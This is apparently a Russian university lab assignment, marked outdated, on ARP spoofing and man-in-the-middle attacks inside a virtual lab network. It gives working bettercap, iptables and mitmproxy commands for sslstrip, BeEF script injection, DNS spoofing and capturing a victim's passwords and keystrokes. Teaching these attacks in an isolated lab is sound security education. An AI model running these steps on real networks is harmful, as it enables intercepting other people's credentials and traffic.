

# Лабораторная 4 (устарела)
Изучение принципа работы ARP спуфинга и атак типа "человек посередине", приобретение практических навыков выполнения атак.


# Теоретическая часть
## MiTM
MiTM (Man in The Middle, "человек посередине") - класс атак, в которых атакующий имеет возможность прослушивать и изменять трафик между атакуемой машиной или службой и службой, к которой атакуемый пытается получить доступ.

## ARP
ARP - протокол для определения адреса канального уровня (MAC адреса) удаленной машины по ее IP адресу. MAC адреса, в свою очередь, записываются в поля "от кого" и "кому" Ethernet фреймов. Коммутаторы в своей работе не используют ARP, полагаясь вместо них на таблицу MAC адресов, которая составляется из входящих и исходящих из соответствующих физических портов Ethernet фреймов.

Адреса, определенные с помощью ARP, хранятся в ARP таблице. В операционных системах на базе Linux просмотреть ее можно так:
```text
$ ip neigh
192.168.100.1 dev eth0 lladdr 08:00:27:35:b6:d7 REACHABLE
```
Где `$` - приглашение ввода пользователя.

## ARP спуфинг
ARP спуфинг - сетевая атака, суть которой заключается в отправке ложных ARP пакетов.

Например, если есть маршрутизатор с IP адресом A, и атакуемый пользователь сети с IP адресом B, то атакующий может:
- отправить маршрутизатору ARP пакет, в котором говорится, что MAC адрес, соответствующий IP адресу B, равен MAC-адресу атакующего
- отправить пользователю ARP пакет, в котором говорится, что MAC адрес, соответствующий IP адресу A, равен MAC-адресу атакующего

Как только ARP таблица на машине пользователя сети обновится, во всех исходящих фреймах, предназначенных маршрутизатору, в Ethernet заголовке в поле "кому" будет выставлен MAC-адрес атакующего вместо MAC-адреса маршрутизатора. Маршрутизатор, являющийся по сути более умным коммутатором, при получении подобного фрейма, сразу же передаст его в соответствующий порт, где фрейм уже ожидает атакующий.

Таким образом, если правильно настроить атакующую машину, можно реализовать атаку типа "человек посередине" между маршрутизатором и пользователем сети.


Тогда путь ICMP запроса при вводе `ping 8.8.8.8` на машине пользователя сети будет выглядеть примерно так:

```text
Пользователь -> Порт A -> (Коммутация в) Порт B -> Атакующий -> Порт B -> Порт WAN -> Интернет
```

А путь ICMP ответа так:

```text
Интернет -> Порт WAN -> Порт B -> Атакующий -> Порт B -> (Коммутация в) Порт A -> Пользователь
```

Если же маршрутизацию на машине атакующего настроить неверно, то ARP спуфинг превращается в форму DoS атаки, т.к. машина атакующего будет просто отбрасывать все проходящие через нее пакеты, из-за чего на машине пользователя сеть будет недоступна.

## MiTM шифрованных соединений
В наши дни большая часть подключений ведется с использованием протоколов, использующих шифрование. Это затрудняет извлечение информации атакой типа MiTM.

В случае HTTPS, одна из простых и очевидных тактик перехвата данных - это изначально избежать шифрование соединения. Для этого машину атакующего можно настроить так, чтобы она не пропускала соединения к порту 443, а также заменять в нешифрованном HTTP-трафике все `https://` ссылки на `http://`. Тогда браузер на машине пользователя не сможет подключиться к целевому сайту по HTTPS по стандартному порту 443, и вместо него будет использовать нешифрованный HTTP, а замена всех `https://` ссылок `http://` предотвратит попытки открыть ссылки по безопасному протоколу. Такая атака называется sslstrip.

Для борьбы с sslstrip был изобретен [HSTS](https://ru.wikipedia.org/wiki/HSTS): HTTP заголовок, который указывает, что с сайтом необходимо соединяться только по HTTPS. Увидев этот заголовок, браузер его запоминает на установленное количество секунд (часто год). Таким образом, если браузер уже запомнил HSTS для сайта, то проведение атаки sslstrip становится невозможным.

Также существует предзагруженный в браузеры список доменов, которые открываются только по HTTPS: [документация Mozilla](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security#preloading_strict_transport_security), [сервис проверки](https://hstspreload.org/). Это делается для того, чтобы злоумышленники не могли использовать атаку sslstrip при первом посещении сайта, когда браузер еще не получил заголовок HSTS. Одним из доменов из этого списка является например mail.google.com - домент почты Google.

Более сложная атака - MiTM с перешифровкой соединений. Здесь атакующий сам устанавливает защищенное соединение с сайтом, а атакуемому отдает данные, перешифрованные своим ключом. Подобное часто применяется без злого умысла, например в случае веб-сервера, который отдает статику фронтэнда, и проксирует запросы в бекэнд, а также антивирусными решениями для проверки шифрованного трафика на вирусы, в корпоративной среде для избежания утечек, или разработчиками приложений для отладки сетевых запросов.

Для проведения подобной атаки, также как и для настройки HTTPS в веб-сервере, нужен приватный ключ и сертификат. При проведении атаки браузеры будут выдавать ошибки, с которыми можно либо согласиться и продолжить, либо установить корневой сертификат.

## DNS спуфинг
В протоколе DNS не используется шифрование, а значит доменные имена видит в и интернет-провайдер, и потенциальный "человек посередине". Кроме того, по той же причине они также могут подменять ответы на запросы. Интернет-провайдерами это может быть использовано для реализации блокировок, а "человеком посередине" для фишинга.

# Практическая часть
## Описание сети
Виртуальная сеть состоит из маршрутизатора, пользователя сети, и машины атакующего.
Виртуальная машина маршрутизатора имеет доступ в реальную сеть и виртуальную, остальные машины только в виртуальную.
IP адрес виртуальной сети - 192.168.100.0/24, маршрутизатора - 192.168.100.1.


## Инструменты
[Kali Linux](https://www.kali.org/) - дистрибутив GNU/Linux для проведения тестов безопасности. Основан на основе Debian, имеет множество предустановленных инструментов.

[Bettercap](https://www.bettercap.org/) - инструмент для исследования безопасности WiFi, Bluetooth, сетей IPv4 и IPv6.

[BeEF (Browser Exploitation Framework)](https://beefproject.com/) - инструмент для исследования безопасности браузеров. Сейчас многие атаки не работают на стандартных конфигурациях браузеров.

[nginx](https://nginx.org/ru/) - веб-сервер.

[mitmproxy](https://mitmproxy.org) - прокси для проведения MiTM атак на шифрованные соединения. Часто используется в законных целях разработчиками приложений для отладки.

## Создание виртуальной машины маршрутизатора
1. Тип: Linux, Arch Linux (64-bit)
2. Оперативная память: 256 МиБ, процессор: 1
3. Жесткий диск: `router.vdi`
4. Сеть: первый адаптер - внутренняя сеть `intnet`, второй адаптер - NAT \
    

## Создание и запуск виртуальной машины атакующего
1. Тип: Linux, Debian (64-bit)
2. Оперативная память: 2560 МиБ, процессор: 2+
3. Жесткий диск: отсутствует
4. CD диски: `kali-linux-2023.1-live-amd64.iso` и `kalipackages.iso`. \
    
5. Сеть: первый адаптер - внутренняя сеть `intnet`
6. Изменить последние 4 цифры MAC-адреса на XXYY (задание, п. 1)

После создания ВМ:

1. Запустить ВМ
2. Выбрать "Live system (amd64)" в загрузчике
3. Дождаться загрузки
4. Открыть терминал: ПКМ по рабочему столу > Open Terminal Here
5. Если рабочий стол виртуальной машины слишком маленький относительно размера окна в хост-системе, то попробовать изменить размер окна ВМ. Если не помогло, то ПКМ по рабочему столу > Open Terminal Here, ввести `xrandr --output Virtual1 --mode 1920x1080`, где 1920x1080 - одно из поддерживаемых разрешений. Полный список можно посмотреть выполнив `xrandr` без агрументов.
6. Открыть диск `Packages` (значок есть на рабочем столе), открыть терминал в открывшейся директории, выполнить `sudo dpkg -i *.deb`

## Запуск виртуальной машины пользователя сети
Аналогично запуску виртуальной машины атакующего, но без диска `kalipackages.iso` и пункта 6.

## ARP спуфинг
1. На машине атакующего в терминале выполнить `sudo bettercap`
2. Включить наблюдение за сетевым трафиком: ввести `net.sniff on`
3. Просканировать сеть, найти IP и MAC адрес ВМ пользователя сети: `net.probe on`. Когда ВМ пользователя сети будет найдена, сканирование можно отключить: `net.probe off`.
4. Включить ARP спуфинг
    * `set arp.spoof.targets ip`, где ip - IP адрес ВМ пользователя
    * `set arp.spoof.fullduplex true`
    * `set arp.spoof.internal true`
    * `arp.spoof on`

## sslstrip
В bettercap ввести:
```text
set http.proxy.sslstrip true
http.proxy on
```

Для проверки необходим сайт, который обычно открывается по https. В случае ошибок можно закрыть браузер и сбросить профиль: из терминала выполнить `rm -rf ~/.mozilla`.

## Запуск BeEF
1. В меню выбрать `beef start`, ввести новый пароль от пользователя beef
2. Дождаться запуска браузера, закрыть терминал
3. Авторизоваться с логином beef и ранее введенным паролем

## Инъекция BeEF
Заражает открываемые жертвой страницы скриптом beef.

Пример ввода в bettercap, где 192.168.100.194 - IP адрес ВМ атакующего (отображается в bettercap):
```text
http.proxy off
set http.proxy.injectjs http://192.168.100.194:3000/hook.js
http.proxy on
```

Результат в beef после открытия http://example.com/ на ВМ пользователя сети: \


В данном примере сессия не будет закрыта пока пользователь не закроет страницу http://example.com/. Если пользователь на этой странице введет "hello world" (не обязательно в поле ввода), то в ВМ атакующего результат будет выглядеть так: \


## Перезапись ссылок
Используем `Link Rewrite (Click Events)` для перезаписи ссылок. Преимущество варианта с "Click Events" заключается в том, что фактическая перезапись ссылки произойдет только при нажатии на нее, а до этого жертва будет видеть старую ссылку. Подобное поведение можно считать легкой формой [кликджекинга](https://ru.wikipedia.org/wiki/Кликджекинг). Кроме злоумышленников, подобным обманом занимаются поисковые системы для отслеживания нажатий пользователей.


## DNS спуфинг
1. Создать файл `hosts`: так как не требуются права `root`, сделать это можно в графическом текстовом редакторе `mousepad` или в консольных редакторах `nano` или `vim`. Записать одну строку:

    ```text
    ip XXYY.com
    ```

    Где `ip` - IP ВМ атакующего, `XXYY` - номер группы и порядковый номер студента в группе.
    Например:

    ```text
    192.168.100.194 2407.com
    ```
    Сохранить в домашнюю директорию пользователя Kali под именем `hosts`.
2. В bettercap:

    ```text
    set dns.spoof.hosts /home/kali/hosts
    dns.spoof on
    ```
3. (Проверка) В ВМ пользователя сети в терминале выполнить `dig XXYY.com`. В выводе должен быть IP адрес ВМ атакующего.

## MiTM с перешифровкой соединения
Выключить sslstrip, если он включен (некоторые прошлые пункты ЛР перестанут работать!):
```text
http.proxy off
```

Открыть новый терминал, ввести
```text
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080
```

После чего запустить `mitmproxy`. В браузере либо соглашаться с ошибками установки безопасного соединения ("Accept the Risk and Continue"), либо установить корневой сертификат:

1. В ВМ атакующего в новом терминале: `python -m http.server -d ~/.mitmproxy`
2. В ВМ пользователя сети: открыть в браузере `http://ip:8000/`, где ip - IP адрес ВМ атакующего (виден в bettercap), скачать `mitmproxy-ca.pem`
3. Добавить сертификат в Firefox: Alt на клавиатуре > Edit > Settings > Privacy & Security > View Certificates > Authorities > Import > `mitmproxy-ca.pem`, поставить галочку "Trust this CA to identify websites", нажать OK.

Очистить список в mitmproxy можно нажатием `z`.

Откатить изменения можно заменив `-A` на `-D` в аргументах к iptables.

# Задание
Далее XXYY - число, где XX - номер группы, YY - порядковый номер студента в группе.

1. Запустить ВМ маршрутизатора, пользователя сети, и атакующего. Последние 4 цифры MAC-адреса ВМ атакующего должны быть XXYY.
2. Изучить вывод Wireshark в ВМ атакующего и ВМ пользователя сети при открытии веб-страницы (или использовании `curl`) в ВМ пользователя сети
3. Изучить вывод `ip neigh` в терминале ВМ пользователя сети
4. Запустить ARP спуфинг в ВМ атакующего, изучить вывод Wireshark при применении атаки (фильтр `not arp`) и при открытии веб-страницы в ВМ пользователя, изучить вывод `ip neigh`
5. Перехватить пароль, содержащий на XXYY, атакой sslstrip
6. Запустить BeEF в ВМ атакующего, включить инъекцию BeEF в страницы ВМ пользователя сети
7. Перехватить нажатые клавиши XXYY в BeEF, перезаписать ссылку
8. Запустить DNS спуфинг с перенаправлением `XXYY.com` на ВМ атакующего
9. (Доп. задание) остановить sslstrip, перехватить MiTM атакой с перешифровкой соединения пароль, содержащий на XXYY

В отчет:

* Пункт 4: скриншот с `ip neigh` в ВМ пользователя
* Пункт 5: скриншот с паролем в bettercap
* Пункт 7: скриншот с журналом BeEF с нажатыми клавишами
* Пункт 9: скриншот с открытой странией `https://XXYY.com/` в ВМ пользователя, скриншот с паролем в mitmproxy
